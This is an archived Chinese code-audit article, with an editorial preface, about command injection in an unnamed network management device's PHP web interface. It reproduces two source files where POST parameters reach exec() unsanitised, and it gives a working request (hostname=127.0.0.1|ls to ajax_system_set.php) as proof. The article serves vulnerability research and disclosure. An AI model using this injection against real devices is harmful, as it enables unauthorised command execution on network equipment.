# 某管理系统快速代码审计

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：匿名网络管理设备PHP命令注入审计
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：cmd可选分支不等于无认证，include global.php/tnmp.php未审，必须追前置鉴权；TG_WEB_DIR/tnmp标识不足单独认厂商型号，产品固件PHP版本全缺
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 两完整PHP文件支持ping_cmd、ping_hostname/traceroute/nslookup直接shell拼接的静态证据
2. cmd可选分支不等于无认证，include global.php/tnmp.php未审，必须追前置鉴权
3. TG_WEB_DIR/tnmp标识不足单独认厂商型号，产品固件PHP版本全缺
4. 第一个仅echo out_info[7]不保证回显命令输出，图片ls成功需具体请求
5. count/packet_size也直接拼命令应标同入口参数面而非仅hostname
6. haveEn1先ping外部DNS及硬编码4packets检查影响路径，测试行为不纯只读
7. 有密码修改/重启等代码未自动认成漏洞
8. 无官方报告/CVE/补丁，原公众号及PeiQi文库可追溯
9. 清推广

### 操作风险

有密码修改/重启等代码未自动认成漏洞

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/u6pbwDQ7gnc4gCcUOXKRYQ>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/u6pbwDQ7gnc4gCcUOXKRYQ)


****

**一****：漏洞思路🐑**

**渗透的时候拿到了一个设备的源码**



**这里的代码为 PHP, 一般很多设备存在 判断网络连接的模块，所以可以通过工具快速寻找存在命令拼接的地方**





**这里存在两个文件含有这个模块**

**第一个文件 **ajax_cloud_router_config.php****

```
<?php
include_once "tnmp.php";
include_once "tnmp_cloud_pack.php";
$i =6;
define(CLOUD_HELLO_CONFIG_CHOOSE, $i++);
define(T_ROUTER_CONFIG, "C1a3L1L1L1");
define(T_ROUTER_CONFIG_UNPACK, "C1flag/a3reserve/L1ipaddr_wan/L1ipaddr_local_area_netmork/L1port_for_roouter");
define(T_ROUTER_CONFIG_LEN, 16);
$i=1;
define(INFO_GET, $i++);/*获取上次保存的端口映射配置信息*/
define(PORT_MAPPING_CONFIG, $i++); /*手动配置*/
define(AUTOATIC_CONFIGURATION, $i++);/*自动配置*/

function tnmp_router_config_info_get(&$config_info, &$config_info_len){
    global $g_msg;
    tnmp_cloud_command(CLOUD_HELLO_CONFIG_CHOOSE, 0, INFO_GET, strlen($param), $param);
    $len = strlen($g_msg);
    if($len<=0){
        $str = "配置读取失败!";
        echo tnmp_json_encode($str);
        return ;
    }
    $data = unpack(T_ROUTER_CONFIG_UNPACK, substr($g_msg, 0, T_ROUTER_CONFIG_LEN));
    $config_info = new cloud_router_config($data);
    $config_info_len = $len;
    return;
}
class cloud_router_config{
    var $flag;
    var $reserve;
    var $ipaddr_wan;
    var $ipaddr_local_area_netmork;
    var $port_for_roouter;
    function __construct($ary){
        $this->flag = $ary[flag];
        $this->reserve = $ary[reserve];
        $this->ipaddr_wan = long2ip($ary[ipaddr_wan]);
        $this->ipaddr_local_area_netmork = long2ip($ary[ipaddr_local_area_netmork]);
        $this->port_for_roouter = $ary[port_for_roouter];
    }
}

if(isset($_POST['cmd'])){
    $cmd = $_POST['cmd'];
    switch ($cmd){
        case INFO_GET:
            tnmp_router_config_info_get($config_info, $config_info_len);
            echo $config_info->port_for_roouter."||".$config_info->flag."||".$config_info->ipaddr_local_area_netmork."||".$config_info->ipaddr_wan;
            //echo  tnmp_json_encode($config_info);
            break;
        case PORT_MAPPING_CONFIG:
            if(isset($_POST['obj'])&&isset($_POST['net_ipaddr'])&&isset($_POST['flag'])){
                $obj = $_POST['obj'];
                $obj = str_replace('\\','', $obj);
                $obj = json_decode($obj);
                $ipaddr_wan = $obj->router_ip;
                $port_for_roouter = $obj->router_port;
                $ipaddr_local_area_netmork = $_POST['net_ipaddr'];
                $flag = $_POST['flag'];
                $param ="";
                $param.=pack(T_ROUTER_CONFIG, $flag, $reserve, ip2long($ipaddr_wan), ip2long($ipaddr_local_area_netmork), $port_for_roouter);
                tnmp_cloud_command(CLOUD_HELLO_CONFIG_CHOOSE, 0, PORT_MAPPING_CONFIG, strlen($param), $param);
                $str_flag = 1;
                echo  $str_flag;
            }
            break;
        case AUTOATIC_CONFIGURATION:
            $str = "自动配置尚未实现!";
            echo tnmp_json_encode($str);
            break;
        default:
            break;
    }
}
/*调用PING命令检测路由器是否可达*/
if(isset($_POST['ping_cmd'])){
    $aa = $_POST['ping_cmd'];
    exec("ping -c 4 ".$aa, $out_info, $status);
    echo $out_info[7];
}


/*
if(isset($_POST['obj'])&&isset($_POST['net_ipaddr'])&&isset($_POST['flag_operating'])&&isset($_POST['flag'])){
    $obj = $_POST['obj'];
    $obj = str_replace('\\','', $obj);
    $obj = json_decode($obj);
    $ipaddr_wan = $obj->router_ip;
    $port_for_roouter = $obj->router_port;
    $ipaddr_local_area_netmork = $_POST['net_ipaddr'];
    $flag_operating = $_POST['flag_operating'];
    $flag = $_POST['flag'];
    $param ="";
    $param.=pack(T_ROUTER_CONFIG, $flag, $flag_operating, $reserve[2], ip2long($ipaddr_wan), ip2long($ipaddr_local_area_netmork), $port_for_roouter);
    tnmp_cloud_command(CLOUD_HELLO_CONFIG_CHOOSE, 0, PORT_MAPPING_CONFIG, strlen($param), $param);
    echo  ip2long($ipaddr_local_area_netmork)."||".$_POST['net_ipaddr'];
}*/

?>
```

**重点关注的位置**



**这里直接 POST 参数 ping_cmd 赋值给 $aa, 再通过 exec 命令执行**

**我们只需要使用 | ，就可以拼接执行命令**





**再看另一个文件**  

```
<?php
include_once '../../../global.php';
include_once TG_WEB_DIR . "tnmp/tnmp.php";
include_once TG_WEB_DIR . "tnmp/tnmp_system.php";
include_once TG_WEB_DIR . "tnmp/ap_tnmp_wlan_pack.php";
include_once TG_WEB_DIR . "tnmp/ap_tnmp_system.php";
function clear_dat($file_name)
{
    if (file_exists($file_name)) 
    {
        unlink($file_name);
    }
}

function tnmp_visitor_account_openrate($cid = null,$data)
{
    if(isset($data->uid))
    {
        if (isset($data->username)) {
            $param = pack('C1C1a2a16a16L1',$data->uid,1,0,$data->username,$data->password,0);
        }
        else
        {
            $param = pack('C1C1a2a16a16L1',$data->uid,1,0,0,0,0);
        }


    }
    else 
    {
        $param = pack('C1C1a2a16a16L1',0,1,0,$data->username,$data->password,0);
    }
    global $g_msg;
    tnmp_system_udp_command(SYSTEM_ACCOUNT_CMD, 0, $cid, strlen($param), $param, 0);
    if(strlen($g_msg) != 0)
    {
        $rv = unpack('C1error',$g_msg);
        return $rv['error'];
    }
    else
    {
       return 0;
    }

}

define('ST_VISITOR_ACCOUNT_INFO','C1uid/C1valid/A2reserve/A16username/A16password/L1last_time');
define('ST_VISITOR_ACCOUNT_INFO_LEN',40);
function tnmp_visitor_account_get()
{
    global $g_msg;

    tnmp_system_udp_command(SYSTEM_ACCOUNT_CMD, 0, SYSTEM_VISITOR_ACCOUNT_GET);

    $count = (int)(strlen($g_msg)/ST_VISITOR_ACCOUNT_INFO_LEN);

    for($i = 0; $i < $count; $i ++)
    {
        $arr[$i] = unpack(ST_VISITOR_ACCOUNT_INFO, substr($g_msg, $i*ST_VISITOR_ACCOUNT_INFO_LEN, ST_VISITOR_ACCOUNT_INFO_LEN));
        if($arr[$i]['last_time'] == 0)
        {
            $arr[$i]['last_time'] = '00-00 00:00';
        }
        else
        {
            $arr[$i]['last_time'] = date("m-d H:i",$arr[$i]['last_time']);
        }

    }

    return $arr;
}


define('ST_WIZARD_CONFIG_INFO', 'C1nettype/A3reserve/N1gateway/N1ipaddr/N1netmask/N1primaryDns/N1secondaryDns');

function sys_web_wizard_config_get(&$info)
{
    global $g_msg;
    tnmp_system_udp_command(SYSTEM_SYSTEM_CMD, 0,SYSTEM_WEB_WIZARD_GET);
    if(strlen($g_msg) <= 0)
        return 0;

    $data = unpack(ST_WIZARD_CONFIG_INFO, substr($g_msg, 0, 24));
    for($i = 0; $i<4;$i ++)
    {
        $data[$i] = unpack('a32ssid/C1encrypt/a3reserve1/a32key',substr($g_msg,24+$i*68,68));

        $data[$i]['ssid'] = trim($data[$i]['ssid']);
        $data[$i]['key'] = trim($data[$i]['key']);

    }

    $info = tnmp_array_to_object($data);
    $info->gateway = long2ip($info->gateway);
    $info->ipaddr = long2ip($info->ipaddr);
    $info->netmask = long2ip($info->netmask);
    $info->primaryDns = long2ip($info->primaryDns);
    $info->secondaryDns = long2ip($info->secondaryDns);

}

function auto_get_client_ip()
{
    $param = pack('C1',1);
    tnmp_system_udp_command_no_reply(SYSTEM_SYSTEM_CMD, 0, SYSTEM_AUTO_GET_IP, strlen($param), $param);
}

$cmd = $_POST["cmd"];

switch($cmd)
{
    case "set_password":    
        $psw = $_POST["p"];
        $psw1= $_POST["p1"];
        $uname= $_POST["uname"];

        tnmp_system_account_get_nmsn($username, $password);
        if($psw != $password)
        {
            echo "error";
            exit(-1);
        }

        $psw1 .= "\0";
        if(!tnmp_system_account_set_nmsn($uname, $psw1))
        {
            session_start(); 
            $ip = getenv('REMOTE_ADDR');
            $log_chinese = "修改密码。";
            $log_english = "Modify password.";
            echo TNMP_REPLY_SUCCESS;
        }
        else
        {
            echo "error";
        }

        break;

    case "reboot_system":
        session_start(); 
        $ip = getenv('REMOTE_ADDR');
        $log_chinese = "重启主机。";
        $log_english = "Restart the host.";
        tnmp_system_reboot_nmsn();
        echo TNMP_REPLY_SUCCESS;
        break;

    case "start_pc_scan":
        tnmp_start_pc_scan();
        echo TNMP_REPLY_SUCCESS;
        break;

    case "get_language":
        $lang = vs_get_language();
        echo $lang;
        break;

    case "set_language":
        $lang = $_POST["language"];
        vs_set_language($lang);
        break;

    case "exchange_language":
        $language = vs_exchange_language_set();
        $language == "CH" ? $language = 0 : $language = 1;
        tnmp_system_language_set_nmsn($language);
        $poe_diag_result = "poe_diag_result.dat";
        $diag_result = "diag_result.dat";
        clear_dat($poe_diag_result);
        clear_dat($diag_result);
        break;

    case "deletePicture":
        tnmp_user_command_no_reply(USER_NETBAR_CMD, 0, AC_NETBAT_VIEW_CONFIG_CANCEL, strlen($param), $param, 0);
        tnmp_system_config_save();
        break;

  case "SYSTEM_TIMEZONE_SET":
    $data = $_POST["data"];

    $data = str_replace('\"', '"', $data);
    $obj=json_decode($data);
    $tzinfo = pack("a16a64a64a64",$obj->timezone,$obj->server1,$obj->server2,$obj->server3);
    tnmp_system_timezone_set($tzinfo);
    echo "success";
    break;
  case "SYSTEM_UPDATE_BROWSE_TIME":
    $browsetime = $_POST["browsetime"];
    tnmp_system_update_browse_time($browsetime);
    echo "success";
    break;
  case "SYSTEM_SYS_TIME_GET":
    tnmp_system_sys_time_get($systime);
    echo $systime;
    break;
    case 'visitor_account_add':
        $data = tnmp_json_decode($_POST["data"]);

        $rv = tnmp_visitor_account_openrate(SYSTEM_VISITOR_ACCOUNT_ADD, $data);

        if($rv != 0)
        {
            echo "error";
        }else
        {
             echo "success";
        }

        break;  
    case 'visitor_account_get':
        $rv = tnmp_visitor_account_get();
        echo json_encode($rv);
        break;
    case 'visitor_account_set':
        $data = tnmp_json_decode($_POST["data"]);
        $rv = tnmp_visitor_account_openrate(SYSTEM_VISITOR_ACCOUNT_SET, $data);
        echo "success";
        break;
    case 'visitor_account_del':
        $data = tnmp_json_decode($_POST["data"]);
        $rv = tnmp_visitor_account_openrate(SYSTEM_VISITOR_ACCOUNT_DEL, $data);
        echo "success";
        break;
  case "save_all_config_set":
        tnmp_system_config_save_nmsn();
        break;
  case "ping_hostname":
    $hostname = $_POST["hostname"];
    $packetsize = $_POST["packet_size"];
    $count = $_POST["count"];
    $errorEn = array("Not found DNS(8.8.8.8). can not resolve the domain name.");
    $errorCh = array("Not found DNS(114.114.114.114). can not resolve the domain name.");
    $haveEn = $_POST["haveEn"];
    /*如果输入的是域名*/
    if($haveEn == 1){
      /*先判断DNS服务器是否有响应*/
      if($TGCP_LANGUAGE == "EN"){
        /*如果使用的是英文版,使用谷歌DNS*/
        exec("ping -c $count -W 1 -s $packetsize 8.8.8.8", $haveInet);
      }else{
        /*使用中文版，使用中国DNS*/
        exec("ping -c $count -W 1 -s $packetsize 114.114.114.114", $haveInet);
      }

      if (in_array("4 packets transmitted, 0 packets received, 100% packet loss", $haveInet))
      {
          if($TGCP_LANGUAGE == "EN"){
          echo tnmp_json_encode_utf8($errorEn);
        }else{
          echo tnmp_json_encode_utf8($errorCh);
        }
      }else{
        exec("ping -c $count -W 1 -s $packetsize $hostname", $result);
        echo tnmp_json_encode_utf8($result);
      }

      return;
    }

    exec("ping -c $count -W 1 -s $packetsize $hostname", $result);
    echo tnmp_json_encode_utf8($result);
    break;
  case "kill_ping":
    exec("killall -9 ping");
    echo "success";
    break;
  case "traceroute_hostname":
    $hostname = $_POST["hostname"];
    $haveEn = $_POST["haveEn"];
    $errorEn = array("Not found DNS(8.8.8.8). can not resolve the domain name.");
    $errorCh = array("Not found DNS(114.114.114.114). can not resolve the domain name.");

    exec("traceroute -q 1 -w 2 -n $hostname", $result);
    echo tnmp_json_encode_utf8($result);
    break; 
  case "kill_traceroute":
    exec("killall -9 traceroute");
    echo "success";
    break;

  case "nslookup_hostname":
    $hostname = $_POST["hostname"];
    $haveEn = $_POST["haveEn"];
    $errorEn = array("Not found DNS(8.8.8.8). can not resolve the domain name.");
    $errorCh = array("Not found DNS(114.114.114.114). can not resolve the domain name.");

    if($haveEn == 1){
      /*先判断DNS服务器是否有响应*/
      if($TGCP_LANGUAGE == "EN"){
        /*如果使用的是英文版,使用谷歌DNS*/
        exec("ping -c 4 -W 1 -s 56 8.8.8.8", $haveInet);
      }else{
        /*使用中文版，使用中国DNS*/
        exec("ping -c 4 -W 1 -s 56 114.114.114.114", $haveInet);
      }

      if (in_array("4 packets transmitted, 0 packets received, 100% packet loss", $haveInet))
      {
          if($TGCP_LANGUAGE == "EN"){
          echo tnmp_json_encode_utf8($errorEn);
        }else{
          echo tnmp_json_encode_utf8($errorCh);
        }
      }else{
        exec("nslookup $hostname", $result);
        echo tnmp_json_encode_utf8($result);
      }
      return;
    }

    exec("nslookup $hostname", $result);
    echo tnmp_json_encode_utf8($result);
    break; 
  case "kill_nslookup":
    exec("killall -9 nslookup");
    echo "success";
    break;
    case 'web_wizard_config_get':
        sys_web_wizard_config_get($data);

        echo tnmp_json_encode_utf8($data);
        break; 
    case 'web_wizard_config_set':
        $data = str_replace('\"', '"', $_POST["data"]);    /*解决JSON传过来的数据，无法被解析的问题*/
        $data = json_decode($data,true);

        $param = pack("C1a3N1N1N1N1N1",$data["nettype"],0,ip2long($data["gateway"]),
            ip2long($data["ipaddr"]),ip2long($data["netmask"]),ip2long($data["primaryDns"]),
            ip2long($data["secondaryDns"]));
        for($i = 1; $i <= 4; $i ++)
        {
            $param .= pack("a32C1a3a32",$data[$i]["ssid"],$data[$i]["encrypt"],0,$data[$i]["key"]);
        }

        tnmp_system_udp_command(SYSTEM_SYSTEM_CMD, 0, SYSTEM_WEB_WIZARD_SET, strlen($param), $param, 0);
        echo 'success';
        break; 
    case 'auto_get_ip':
        auto_get_client_ip();
        break;
    case 'web_dafault_pw_set':
        $un = $_POST["un"];
        $pw = $_POST["pw"];
        $pw .= "\0";
        if(!tnmp_system_account_set_nmsn($un, $pw))
        {
            echo 'success';
        }
        else
        {
            echo "error";
        }
        break;
    default:
        echo "unknow cmd";
        break;
}

?>
```

**switch($cmd)** 中的 $cmd 是可控的，可以通过传参选择分支执行

**ping_hostname 模块**



**构造 POST 请求**

```
/nmss/toolMenu/Ajax/ajax_system_set.php

cmd=ping_hostname&hostname=127.0.0.1|ls&packet_size=56&count=4&haveEn=1
```



**traceroute_hostname 模块**





**nslookup_hostname 模块**

